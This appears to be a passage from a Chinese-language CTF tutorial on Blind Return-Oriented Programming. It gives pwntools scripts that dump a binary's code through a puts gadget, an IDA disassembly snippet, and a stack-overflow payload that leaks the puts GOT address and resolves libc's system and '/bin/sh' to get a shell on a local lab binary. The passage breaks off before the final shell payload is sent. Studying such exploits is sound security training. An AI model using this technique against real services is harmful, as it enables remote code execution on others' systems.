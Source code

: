 ```
buffer_length = 72
##stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4006c0
##brop_gadget = find_brop_gadget(buffer_length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = GetPutsPlt(buffer_length, rdi_ret, stop_gadget)
puts_plt_addr = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(buffer_length, rdi_ret, puts_plt_addr, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

```
seg000:0000000000400555                 or      bh, bh
seg000:0000000000400557                 and     eax, 0A200AB4h
seg000:000000000040055C                 nop     dword ptr [rax+0Ah]
seg000:0000000000400560                 jmp     qword ptr cs:0A601018h#puts函数的got地址
```

具体IDA操作方法见链接：https://www.freesion.com/article/32791039584/#_1

7、通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

```
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

p = process('./brop')

buffer_length   = 72
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9
puts_plt_addr = 0x400555
puts_got_addr = 0x601018

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr)
payload += p64(stop_gadget)

p.sendline(payload)
puts_addr = u64(p.recvuntil('\nWelCome my friend', drop=True).ljust(8, '\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')

#####################################################

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
```